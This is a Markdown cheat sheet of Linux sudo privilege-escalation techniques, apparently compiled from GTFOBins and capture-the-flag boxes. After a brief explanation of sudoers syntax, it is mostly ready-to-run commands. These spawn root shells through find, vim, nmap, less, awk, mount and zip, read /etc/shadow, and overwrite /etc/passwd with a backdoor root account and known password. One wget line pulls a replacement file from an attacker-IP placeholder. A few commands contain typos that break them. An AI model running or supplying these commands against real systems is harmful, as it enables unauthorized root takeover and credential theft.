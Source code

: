 # Background
- Substitute User and Do 
- Users can execute command under root (or other users) using their own passwords instead of root’s one or without password depending upon sudoers setting.
- Settings for the local Host are defined in the /etc/sudoers/ file.

# Syntax
User Terminals =(Acting as user) Allowed Command 
Examples:
```
root ALL=(ALL) ALL 
```
  - Root user can execute from ALL terminals, acting as ALL (any) users, and run ALL (any) command.
```
touhid ALL= /sbin/poweroff 
```
  - Touhid can from any terminal, run the command power off using touhid’s user password.
```
touhid ALL = (root) NOPASSWD: /usr/bin/find 
```
  - Touhid can from any terminal, run the command find as root user without password.

# Attack Vector
1. Display the SUDO commands available to the current user.
```
sudo -l
```
2. Identify Vulnerable Binaries
[GTFOBins](https://gtfobins.github.io/)

## Cat (Vulnhub:SkyTower)
You can read any file on the system.  If you are restricted to reading all the files under a certain directory (/accounts/\*), you can use directory traversal to break out of this restriction to read any file you want.
```
sudo cat /accounts/../etc/shadow
```

## CP
Copy and overwrite the /etc/shadow/ file with a new entry for a root user.
```
Newuser:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash 
```
  - Password is "test".
## Find
```
sudo find /etc/passwd -exec /bin/sh \; 
sudo find /bin -name nano -exec /bin/sh \; 
sudo find / -exec bash -i \; 
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ; 
```
## Vim
```
sudo vim -c '!sh'
```
## Nmap
### Old Way
```
sudo nmap --interactive 
nmap> !sh 
```
  - Note : nmap –interactive option not available in latest nmap.
### New Way
```
echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
```
## Man
```
sudo man man
```
  - After that press !sh and hit enter.
## Less/More
```
sudo less /etc/hosts
```
  - After that press !sh and hit enter. 
```
sudo more /etc/hosts 
```
  - After that press !sh and hit enter.
## AWK
```
sudo awk 'BEGIN {system("/bin/sh")}'
```
## Nano
A text editor that can be used to overwrite the passwd file with a new root user and predefined password.
```
sudo nano  /etc/passwd 
Newuser:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash 
Su newuser
```
  - Password is "test".
## Wget (ippsec:Sunday)
You can download a copy of the target passwd file, change it, then re-upload it to the target machine.
1. Send the passwd file from the target box to your attacker box through various transfer means.
2. Add a new root user with a password of "test".
```
Newuser:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash 
```
3. Re-upload the passwd file from the attacker box to the target box.
```
sudo wget [attacker IP]:[port]/passwd -O /etc/passwd
```
  - Or substitute in /etc/shadow instead of /etc/passwd if the shadow file is used (which is likely).
## Apache
Can't get a shell with this binary but can display file contents.
```
sudo apache2 -f /etc/shadow/
```
## Mount
```
sudo mount -o bind /bin/bash /bin/mount 
sudo mount 
```
## TCPdump
```
echo $’id\ncat /etc/shadow’ > /tmp/.test 
Chmod +x /tmp/.test 
Sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```
## ZIP
```
Sudo zipfile.zip [random text file]  -T –-unzip-command="sh –c /bin/bash"
```
